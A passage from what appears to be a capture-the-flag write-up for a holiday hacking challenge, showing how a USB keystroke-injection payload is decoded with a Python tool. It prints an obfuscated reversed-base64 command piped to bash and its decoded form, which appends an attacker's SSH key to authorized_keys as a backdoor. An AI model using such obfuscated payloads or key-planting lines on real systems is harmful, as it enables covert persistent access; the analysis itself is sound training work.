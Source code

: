 We need to evaluate the USB data in `/mnt/USBDEVICE`. There is a Python script
in home named `mallard.py` which appears to contain the ducky script for
converting keystrokes to text (?).

Looking inside [mallard.py](mallard.py) was useless, I could have just ran
`./mallard.py -h` to see the switches.

```
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
  --no_analyze, -A      Include this switch to turn off analysis of the duckyfile
  --output_file OUTPUT_FILE, -o OUTPUT_FILE
                        File to save decoded ducky script to. Default will print duckyfile to
                        screen.
  --analysis_file ANALYSIS_FILE
                        Location to output analysis. Default will print analysis to screen.
  --debug               Enable Debug Logging.
```

Target file is `/mnt/USBDEVICE/inject.bin`. The `-o` option does not seem to
work but we can do `./mallard.py -f /mnt/USBDEVICE/inject.bin` to see the
output.

This is there

```
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4Wd
   mxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRV
   NFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ
   0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1G
   ZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
```

We can run the same command minus the last part (`bash`) to see the result.

```
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG
   5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGl
   MRnJhdWdST2FSaWZSaXBKcUZmUHAK
   ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

We can see `ickymcgoop@trollfun.jackfrosttower.com`. The answer is `ickymcgoop`.

# 6) Shellcode Primer

> Complete the Shellcode Primer in Jack's office. According to the last
> challenge, what is the secret to KringleCon success? "All of our speakers and
> organizers, providing the gift of ____, free to the community." Talk to
> Chimney Scissorsticks in the NetWars area for hints.

Shellcode primer is at: https://tracer.kringlecastle.com/


[param-tampering]: https://owasp.org/www-community/attacks/Web_Parameter_Tampering
[gist-ipv6]: https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f
[ssh-backdoor]: https://attack.mitre.org/techniques/T1098/004/
[hash-extension]: https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
[hash_extender-github]: https://github.com/iagox86/hash_extender
[splunk-search]: https://hhc21.bossworkshops.io/en-US/app/SA-hhc/search
[elfnp3-gh]: https://github.com/elfnp3
[dvws-orig]: https://github.com/snoopysecurity/dvws-node
[frost-job]: https://apply.jackfrosttower.com/
[imds-aws-metadata]: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
[rfc3514]: https://datatracker.ietf.org/doc/html/rfc3514
[wireshark-displayfilter]: https://wiki.wireshark.org/DisplayFilters
